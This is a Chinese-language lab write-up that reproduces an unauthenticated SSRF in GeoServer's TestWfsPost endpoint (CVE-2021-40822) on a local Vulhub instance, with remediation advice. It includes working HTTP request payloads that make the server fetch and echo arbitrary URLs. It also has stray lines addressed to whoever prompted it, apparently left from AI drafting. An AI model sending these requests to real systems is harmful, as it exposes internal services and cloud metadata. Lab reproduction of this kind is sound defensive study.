


# CVE-2021-40822 - GeoServer 未授权 SSRF 漏洞复现

## 1. 漏洞概述

CVE-2021-40822 是 GeoServer 中的服务器端请求伪造漏洞。GeoServer 是一个 Java 编写的开源地理空间数据服务程序，常用于发布、查看和共享 GIS 数据。Vulhub 官方说明中，该漏洞存在于 GeoServer 的 `TestWfsPost` 接口，攻击者可以通过 `url` 参数使 GeoServer 服务器向指定目标地址发起请求。([GitHub](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2021-40822/README.md "vulhub/geoserver/CVE-2021-40822/README.md at master · vulhub/vulhub · GitHub"))

该漏洞属于**未授权 SSRF**。漏洞触发后，请求不是由攻击者客户端直接访问目标地址，而是由 GeoServer 所在服务器发出。攻击者因此可以借用 GeoServer 的网络位置访问外部服务、内网服务，或者在云环境中尝试触达实例元数据服务。

NVD 对该 CVE 的描述是：GeoServer through 2.18.5，以及 2.19.x through 2.19.2，允许通过 proxy host 选项触发 SSRF，漏洞类型被归类为 CWE-918，CVSS 3.1 评分为 7.5，高危。([国家漏洞数据库](https://nvd.nist.gov/vuln/detail/CVE-2021-40822 "NVD - CVE-2021-40822"))

---

## 2. 影响版本与利用条件

| 条件        | 说明                                         |
| --------- | ------------------------------------------ |
| 影响组件      | GeoServer                                  |
| 影响接口      | Vulhub 环境中为 `/geoserver/TestWfsPost`       |
| Vulhub 版本 | GeoServer 2.19.1                           |
| NVD 影响版本  | GeoServer through 2.18.5；2.19.0 到 2.19.2   |
| Vulhub 描述 | 2.19.3、2.18.5、2.17.6 之前版本存在 SSRF 风险        |
| 权限条件      | 未授权可访问 `TestWfsPost` 时可触发                  |
| 触发参数      | `url`、`body`、`username`、`password`         |
| 漏洞类型      | SSRF                                       |
| RCE 条件    | 该漏洞本身不是直接 RCE；若被访问的内部服务存在危险接口或二次漏洞，风险才可能升级 |

这里有一个版本表述差异要注意：Vulhub README 写的是 GeoServer `2.19.3`、`2.18.5`、`2.17.6` 之前版本存在 WMS GetMap SSRF；NVD 则写的是 `through 2.18.5` 和 `2.19.x through 2.19.2`。写复现文档时建议以**Vulhub 环境实际版本 2.19.1 + NVD 影响范围**为主，避免把版本边界写死成单一来源。([GitHub](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2021-40822/README.md "vulhub/geoserver/CVE-2021-40822/README.md at master · vulhub/vulhub · GitHub"))

GeoServer 后续公告中还提到 `TestWfsPost` 相关 SSRF 在 2.24.4 / 2.25.2 中通过替换 demo request 机制得到处理，并说明 CVE-2021-40822 与后续 CVE 记录存在一定重复背景。这说明该接口类问题在较新版本中也被官方作为安全风险持续收敛。([GeoServer](https://geoserver.org/vulnerability/2025/06/10/cve-disclosure.html "June 2025 Vulnerability Disclosures"))

---

## 3. 漏洞原理

该漏洞的核心触发点是 `TestWfsPost` 接口。Vulhub 官方说明中，该接口接受 `url`、`body`、`username`、`password` 等参数，其中 `url` 表示 GeoServer 将要请求的目标 URL，`body` 表示请求体；如果 `body` 为空，GeoServer 发送 GET 请求，如果 `body` 有值，则发送 POST 请求。([GitHub](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2021-40822/README.md "vulhub/geoserver/CVE-2021-40822/README.md at master · vulhub/vulhub · GitHub"))

漏洞链路可以概括为：

```text
外部用户提交 POST /geoserver/TestWfsPost
  -> url 参数指定目标地址
  -> GeoServer 服务器端根据 url 发起 HTTP 请求
  -> 目标服务响应被 GeoServer 接收
  -> GeoServer 将响应内容返回给外部用户
```

这就是 SSRF 的典型边界问题：用户控制的是一个 URL 参数，但真正发起请求的是 GeoServer 服务器。攻击者借用的是 GeoServer 所在主机的网络位置，而不是自己的浏览器网络位置。

在 Vulhub 复现中，关键点不是登录后台，也不是修改地图数据，而是验证：

```text
GeoServer 是否会根据 url 参数访问指定外部目标；
GeoServer 是否会把目标响应内容回显给当前请求。
```

因此它属于**回显型 SSRF**。和盲 SSRF 相比，它更容易验证，因为后端请求的响应会出现在前端 HTTP 响应中。

需要注意，官方 README 特别提示：`url` 参数中的主机名必须和 HTTP 请求中的 `Host` 头保持一致，否则 GeoServer 会返回错误。例如 `url=http://internal/...` 时，请求头中也应使用 `Host: internal`。([GitHub](https://github.com/vulhub/vulhub/blob/master/geoserver/CVE-2021-40822/README.md "vulhub/geoserver/CVE-2021-40822/README.md at master · vulhub/vulhub · GitHub"))

---

## 4. Vulhub 环境启动

进入 Vulhub 对应目录：

```bash
cd vulhub/geoserver/CVE-2021-40822
```

启动环境：

```bash
docker compose up -d
```

Vulhub 官方环境启动的是 GeoServer 2.19.1。服务启动后，浏览器访问：

```text
http://127.0.0.1:8080/geoserver
```

或根据实际环境访问：

```text
http://<靶机IP>:8080/geoserver
```

Vulhub 的 `docker-compose.yml` 使用镜像 `vulhub/geoserver:2.19.1`，并将容器的 `8080` 端口映射到宿主机 `8080` 端口。([GitHub](https://raw.githubusercontent.com/vulhub/vulhub/master/geoserver/CVE-2021-40822/docker-compose.yml "raw.githubusercontent.com"))

---

## 5. 浏览器确认基础功能

浏览器访问：

```text
http://127.0.0.1:8080/geoserver
```



可以看到 GeoServer 默认页面。该页面只能说明靶场服务已经启动，不能证明漏洞已经触发。

这一阶段的验证目标是：

```text
GeoServer Web 服务正常；
/geoserver 路径可访问；
8080 端口映射正常；
后续 Burp 请求有明确目标。
```

---

## 6. 使用 Burp 触发漏洞

该漏洞是普通 HTTP 接口触发，浏览器用于确认服务状态，Burp Repeater 用于修改请求方法、请求头和表单参数。你的提示词也要求：只有需要修改路径、参数、Header 或编码内容时才使用 Burp，不要把全文写成请求包教程。

Burp Repeater 中向 Vulhub 靶场发送如下请求。注意：**TCP 连接目标仍然是本地靶场 `127.0.0.1:8080`，但 HTTP `Host` 头需要和 `url` 参数中的主机保持一致。**

```http
POST /geoserver/TestWfsPost HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Connection: close

form_hf_0=&url=http://example.com/geoserver/../&body=&username=&password=
```

这个请求的关键点有三个：

| 位置                                     | 作用                         |
| -------------------------------------- | -------------------------- |
| `POST /geoserver/TestWfsPost`          | 访问 GeoServer 的测试请求接口       |
| `Host: example.com`                    | 与 `url` 参数中的主机名保持一致        |
| `url=http://example.com/geoserver/../` | 指定 GeoServer 服务端要访问的目标 URL |
| `body=`                                | 为空时触发 GET 请求，更容易观察外部页面响应   |
| `username/password`                    | 可选 Basic Auth 字段，当前验证中留空   |

Vulhub 官方示例使用的是同一类结构，只是给出的请求体中 `body=testtest` 会使 GeoServer 发起 POST 请求；如果目标站点不接受 POST，可能不如空 `body` 的 GET 方式稳定。官方也说明 `body` 为空时会发送 GET，有值时会发送 POST。([GitHub](https://raw.githubusercontent.com/vulhub/vulhub/master/geoserver/CVE-2021-40822/README.md "raw.githubusercontent.com"))

如果想严格贴近 Vulhub 官方示例，可以使用：

```http
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Content-Type: application/x-www-form-urlencoded
Connection: close

form_hf_0=&url=http://internal/geoserver/../&body=testtest&username=admin&password=admin
```

但这里有两个细节：

1. `internal` 需要能被 GeoServer 容器解析到目标服务，否则会连接失败；

2. 官方中文 README 中示例出现过 `interal` / `internal` 的拼写差异，实际复现时以“`url` 主机名与 `Host` 头一致”为准，别照抄错字，女仆这里就不装糊涂了。

---

## 7. 浏览器或 Burp 验证漏洞结果

发送构造请求后，预期响应不再是 GeoServer 自身页面，而是目标 URL 的响应内容。例如使用 `example.com` 作为目标时，响应体中应出现 Example Domain 相关页面内容。

成功现象可以概括为：

```text
请求发送给本地 GeoServer；
url 参数指向外部目标；
响应内容来自外部目标；
说明 GeoServer 服务器端代替用户访问了该目标。
```

这说明 SSRF 已经触发。真正的验证点不是状态码，而是响应来源发生变化。



---

## 8. 结果判断

| 现象                       | 含义                                               |
| ------------------------ | ------------------------------------------------ |
| `/geoserver` 返回默认页面      | 靶场启动正常                                           |
| `TestWfsPost` 返回外部目标页面内容 | SSRF 触发成功                                        |
| 返回 GeoServer 自身页面        | 可能请求没有触发外部访问，或目标 URL 设置错误                        |
| 返回 400 / 500             | `Host` 与 `url` 主机不一致、参数格式错误，或接口处理异常              |
| 返回连接失败                   | GeoServer 容器无法访问目标地址，或 DNS / 网络出站受限              |
| 返回目标站点的 403 / 405        | SSRF 可能已触发，但目标服务拒绝该方法或路径                         |
| Burp 连接目标改成 example.com  | 操作错误；Burp 的 TCP 目标应仍是本地靶场，只修改 HTTP `Host` 头和表单参数 |
| 只看到 DNS 解析但无 HTTP 响应     | 可能是盲 SSRF 或网络层阻断，需要结合受控服务日志判断                    |

如果使用公网目标验证，结果会受网络、DNS、目标站点策略影响。更稳定的做法是在本地或授权网络中准备一个只用于接收请求的 HTTP 服务，然后把 `url` 指向该服务。文档里不要写批量探测、内网扫描或公网利用，那些对你的作品集没有正收益，还容易脏。

---

## 9. 漏洞风险分析

CVE-2021-40822 的风险来自 GeoServer 服务端请求边界失控。外部用户本来只能访问 GeoServer 的公开 Web 接口，但漏洞触发后，用户可以让 GeoServer 服务器向其他地址发起请求。

风险方向包括：

```text
外部服务请求伪造
内网 HTTP 服务访问
云环境元数据服务访问
内部管理接口探测
带认证目标的 Basic Auth 请求
```

该漏洞在 Vulhub 中是回显型 SSRF，目标响应会返回给用户，因此比盲 SSRF 更容易验证和利用。但它仍然不应被直接写成 RCE。SSRF 提供的是服务端请求能力，只有当被访问的内部系统存在危险接口、弱认证、敏感信息泄露或二次漏洞时，才可能扩大为更高危影响。

从漏洞分类上看，它适合放进 SSRF 专题中的：

```text
Java Web 服务 SSRF
GeoServer / GIS 服务 SSRF
未授权接口 SSRF
回显型 SSRF
服务端代理请求边界失控
```

---

## 10. 修复建议

修复建议分两层写：版本升级和配置收敛。

### 10.1 版本升级

对于 Vulhub 复现所用的 GeoServer 2.19.1，应升级到不受该 CVE 影响的版本。NVD 记录的影响范围包括 GeoServer through 2.18.5，以及 2.19.0 到 2.19.2；NVD 参考中也包含 `2.19.2...2.19.3` 的修复比较链接。([国家漏洞数据库](https://nvd.nist.gov/vuln/detail/CVE-2021-40822 "NVD - CVE-2021-40822"))

对于 `TestWfsPost` 类 SSRF 问题，GeoServer 后续公告明确提到在 2.24.4 / 2.25.2 中移除了 `TestWfsPost` servlet，并用浏览器端 JavaScript Demo Requests 页面替代，从而解决该接口导致的 SSRF 风险。([GitHub](https://github.com/geoserver/geoserver/security/advisories/GHSA-5gw5-jccf-6hxw?utm_source=chatgpt.com "Unauthenticated SSRF via TestWfsPost"))

### 10.2 配置与访问控制

| 修复项                 | 说明                                           |
| ------------------- | -------------------------------------------- |
| 升级 GeoServer        | 优先升级到官方修复版本或当前维护版本                           |
| 限制 `TestWfsPost`    | 不需要该测试接口时应禁用或限制访问                            |
| 设置 `PROXY_BASE_URL` | 官方后续建议使用非空 `PROXY_BASE_URL`，避免被用户界面或请求覆盖     |
| 限制出站访问              | GeoServer 服务器不应能任意访问内网、云元数据地址或敏感后端           |
| 加强网络隔离              | GIS 服务、管理接口、数据库和内部 API 应分区部署                 |
| 日志监控                | 关注 `/geoserver/TestWfsPost` 的异常访问和非常规 Host 头 |
| 禁止暴露测试接口            | Demo、测试、调试类接口不应在生产环境对公网开放                    |

SSRF 防护不要只依赖参数黑名单。对于这类服务端请求功能，核心是限制服务器能请求什么、谁能触发请求、响应是否回显，以及重定向和 DNS 解析后的目标是否仍然可信。

---

## 11. 复现总结

CVE-2021-40822 的触发入口是 GeoServer 的 `/geoserver/TestWfsPost` 接口。漏洞本质是该接口允许未授权用户通过 `url` 参数控制 GeoServer 服务端请求目标，造成回显型 SSRF。

复现成功的关键点是：Burp 的实际连接目标仍然是 Vulhub 本地 GeoServer，但 HTTP 请求中的 `Host` 头需要与 `url` 参数主机一致；发送后如果响应内容来自 `url` 指定的目标，就说明 GeoServer 已经代替用户发起了服务端请求。

这篇案例的价值在于：它不是 Webserver 代理层 SSRF，而是 **Java Web/GIS 服务中的未授权接口 SSRF**。
